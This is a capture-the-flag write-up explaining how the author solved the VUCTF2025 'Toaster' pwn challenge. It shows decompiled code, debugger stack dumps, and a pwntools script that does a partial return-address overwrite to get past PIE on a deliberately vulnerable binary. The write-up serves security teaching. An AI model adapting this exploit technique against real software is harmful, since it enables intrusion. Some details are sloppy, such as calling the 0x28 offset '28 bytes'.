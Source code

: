 # VUCTF2025 Toaster
This pwn challenge is a classic ret2win challenge. 

The main function contains calls to `menu()`, which simply prints some text, and to a vulnerable function `kitchen()`.
```
void main(void) {
  menu();
  kitchen();
  return;
}
```
The `kitchen()` function contains a 32 byte buffer, but reads up to 0x42 bytes to it, allowing for a buffer overflow:
```
void kitchen(void) {
  undefined1 local_28 [32];
  
  puts("Please give me your secret recipe? ");
  read(0,local_28,0x42);
  return;
}
```
The binary also contains a `toast()` function, which reads and prints the flag when reached:
```
void toast(void) {
  ...
  
  puts("You managed to make the perfect toast, please enjoy it!");
  iVar1 = setuid(0);
  if (iVar1 == 0) {
    local_c = open("/flag.txt",0);
    if (local_c < 0) {
      perror("open failed");
    }
    else {
      ...
      sVar2 = read(local_c,&local_78,99);
      local_10 = (int)sVar2;
      if (local_10 < 1) {
        perror("read failed");
      }
      else {
        write(1,"FLAG: ",6);
        write(1,&local_78,(long)local_10);
        close(local_c);
      }
    }
  }
  else {
    perror("setuid failed");
  }
  return;
}
```
The challenge is thus clear, we have to overflow the buffer in `kitchen()` to overwrite the return pointer on the stack and return into `toast()`.
However, it is made a bit more difficult by the enabled protections:
```
$ checksec toaster 
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```
The main issue is that PIE is enabled, causing the binary to be loaded at a randomized address. This means we won't know the address of `toast()` to return to. 
However, the offsets of functions inside the binary will still be equal. When inspecting the binary we can see that the address of the `toast()` function (`0x0010127d`) is close to the address of `main()` (`0x001013f7`), which the return address of `kitchen()` points to.
This offers an attack vector that can circumvent ASLR. We can try to overwrite only the last byte(s) of the address, leaving the randomised part of the address intact. 
This is possible as the addresses are stored in little endian, meaning the final characters of the address are stored first in memory.

To get a better view of what the randomised address will look like, we can inspect some example loaded addresses of the functions:
```
pwndbg> x toast
0x564a64fd527d <toast>: 0xfa1e0ff3
pwndbg> x main
0x564a64fd53f7 <main>:  0xfa1e0ff3
```
To demonstrate why partially overwriting could work, these addresses are stored in little endian like this:
```
toast():
\x7d\x52\xfd\x64\x4a\x56
main():
\xf7\x53\xfd\x64\x4a\x56
```
Overwriting the start of the return address to `main()` with `\x7d\x52` would thus make it point to `toast()` instead.

Comparing these addresses to those in another run, we can see that the final three characters are always the same, but all the characters before those are random:
```
pwndbg> x toast
0x55d0d5d7127d <toast>: 0xfa1e0ff3
pwndbg> x main
0x55d0d5d713f7 <main>:  0xfa1e0ff3
```
We thus have to overwrite the final three characters of the return pointer with `27d` to return to `toast()`. 
The problem is that we cannot only overwrite the last three bytes due to the way they are stored as described earlier. If we want to overwrite the last three characters, we will also overwrite the 4th last character.
Luckily, this is where the randomness of the addresses can actually help us. We know the address has to end in `x27d`, where `x` is random every time.
However, we can simply choose any character for `x`, and run our attack multiple times until the randomised address loaded equals `x`. which will happen once every 16 runs on average as addresses are hexidecimal.
We can do this using the following pwntools script:
```
io = start()
toast_addr = 0x10127d
payload = b"A" * 0x28
payload += p64(toast_addr)
payload = payload[:0x2a]
io.sendafter(b"Please give me your secret recipe? \n", payload)
io.interactive()
```
This scripts sends 28 bytes of padding to reach the return address. This offset can be found by setting a breakpoint in `kitchen()` before the read, and inspecting the stack using pwndebug.
The result of this can be found below, where the stack shows the offset `0x28` contains the return pointer back to `main()`.

```
───────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────
   0x563038ee73c8 <kitchen+5>     mov    rbp, rsp               RBP => 0x7ffccb089760 —▸ 0x7ffccb089770 ◂— 1
   0x563038ee73cb <kitchen+8>     sub    rsp, 0x20              RSP => 0x7ffccb089740 (0x7ffccb089760 - 0x20)
   0x563038ee73cf <kitchen+12>    lea    rax, [rip + 0xdda]     RAX => 0x563038ee81b0 ◂— 'Please give me your secret recipe? '
   0x563038ee73d6 <kitchen+19>    mov    rdi, rax               RDI => 0x563038ee81b0 ◂— 'Please give me your secret recipe? '
   0x563038ee73d9 <kitchen+22>    call   puts@plt                    <puts@plt>
 
 ► 0x563038ee73de <kitchen+27>    lea    rax, [rbp - 0x20]      RAX => 0x7ffccb089740 ◂— 0
   0x563038ee73e2 <kitchen+31>    mov    edx, 0x42              EDX => 0x42
   0x563038ee73e7 <kitchen+36>    mov    rsi, rax               RSI => 0x7ffccb089740 ◂— 0
   0x563038ee73ea <kitchen+39>    mov    edi, 0                 EDI => 0
   0x563038ee73ef <kitchen+44>    call   read@plt                    <read@plt>
 
   0x563038ee73f4 <kitchen+49>    nop    
─────────────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7ffccb089740 ◂— 0
01:0008│-018 0x7ffccb089748 —▸ 0x7ffccb089898 —▸ 0x7ffccb08b222 ◂— 'COLORFGBG=15;0'
02:0010│-010 0x7ffccb089750 —▸ 0x7fe642423000 (_rtld_global) —▸ 0x7fe642424310 —▸ 0x563038ee6000 ◂— 0x10102464c457f
03:0018│-008 0x7ffccb089758 —▸ 0x563038ee727a (menu+113) ◂— nop 
04:0020│ rbp 0x7ffccb089760 —▸ 0x7ffccb089770 ◂— 1
05:0028│+008 0x7ffccb089768 —▸ 0x563038ee7413 (main+28) ◂— nop 
06:0030│+010 0x7ffccb089770 ◂— 1
07:0038│+018 0x7ffccb089778 —▸ 0x7fe642200ca8 (__libc_start_call_main+120) ◂— mov edi, eax

```
This offset is then followed by the last 2 bytes of the address of `toast()` (`0x127d`).

The full script can be found [here](https://github.com/TSpeel/writeups/blob/main/VUCTF2025/Toaster/exploit.py). Remember, the script has to be run on average 16 times to be successful.

## `sendafter()` vs `sendlineafter()`
When I first attempted the challenge, I was having issues where I was not just overwriting the return pointer with `0x0x127d`, but with `0x0a127d`. 
Debugging this cost me quite some time, but it ended up being caused by the fact that my exploit script at this point used `sendlineafter()` instead of `sendafter()`.
`sendlineafter()` also sends a newline character, which ended up becoming `0a` in the return address. Swapping out this function with `sendafter()` solved this problem.
